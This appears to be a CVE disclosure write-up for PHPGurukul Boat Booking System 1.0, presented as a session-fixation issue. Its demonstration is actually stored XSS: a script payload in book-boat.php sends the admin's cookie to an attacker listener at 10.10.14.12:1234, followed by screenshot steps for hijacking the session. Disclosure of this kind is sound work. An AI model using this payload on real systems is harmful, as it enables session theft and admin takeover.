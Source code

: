 ```yaml
---
title: CVE-2024-10158
draft: false
tags:
---
```

# Session Fixation vulnerability from phpgurukul Boat Booking System 1.0 
## CVE-2024-10158

> A vulnerability classified as problematic has been found in PHPGurukul Boat Booking System 1.0. Affected is the function session_start. The manipulation with an unknown input leads to a session fixiation vulnerability. CWE is classifying the issue as CWE-384. Authenticating a user, or otherwise establishing a new user session, without invalidating any existing session identifier gives an attacker the opportunity to steal authenticated sessions. This is going to have an impact on integrity.



**Affected Project**: Boat Booking System 1.0

**Official Website**: https://phpgurukul.com/boat-booking-system-using-php-and-mysql/

**Version**: 1.0

**Related Code file**: book-boat.php

## Vulnerability Description

The session is being started (session_start()) without regenerating the session ID after login, which could expose the system to session fixation attacks. An attacker can force a session ID onto a victim and then hijack it after the victim logs in.

**Risk**: If an attacker gets hold of the session ID (via XSS or other means), they could hijack the session and impersonate the user.

**Fix**: After logging in, regenerate the session ID to prevent this attack.

Via injecting `<script>var i=new Image(); i.src="http://10.10.14.12:1234/?cookie="+btoa(document.cookie);</script>` payload to forms in `book-boat.php`, attacker can inject a XSS payload.

When admin user sign in to check on `all-booking.php`, payload will be triggered and admin cookie is forwarded to attacker's netcat listener, which can be used to login as the admin user without needing any credentials. 


## Demonstration

Below is how boat booking system looks like. Let's fill it up with Session Hijacking payload: `<script>var i=new Image(); i.src="http://10.10.14.12:1234/?cookie="+btoa(document.cookie);</script>`

![Screenshot from 2024-10-17 11-57-34](https://github.com/user-attachments/assets/66af02a8-6ef0-4c27-b8f7-beeef3b11454)

We can see that the booking was done successfully:

![Screenshot from 2024-10-17 11-57-45](https://github.com/user-attachments/assets/50d16838-f7e8-4043-befc-3c2cca27d422)

Now, sign in as the admin:

![Screenshot from 2024-10-17 11-58-06](https://github.com/user-attachments/assets/b1e98c53-530f-475d-8ab6-ff2ceee9be4c)

Going to `all-booking.php`, payload is triggered, and attacker's netcat listener intercepts the admin session cookie:

![Screenshot from 2024-10-17 11-58-23](https://github.com/user-attachments/assets/e79d126a-4a8c-4202-a494-b08c0cbc6806)

Using `atob`, this can be decoded to PHPSESSID:

![Screenshot from 2024-10-17 11-59-46](https://github.com/user-attachments/assets/521ffa2f-55d2-45d5-8f15-0f33c58b869d)

Use cookie editor to set the browser cookie to intercepted admin cookie:

![Screenshot from 2024-10-17 12-10-03](https://github.com/user-attachments/assets/5c64497e-cf01-42c3-9792-e38c3eee2d39)

Without needing any admin credentials, attacker is now able to access admin dashboard with admin privilege:

![Screenshot from 2024-10-17 12-00-38](https://github.com/user-attachments/assets/37deba4e-1095-4aea-bc81-ef0a4dabcd3b)

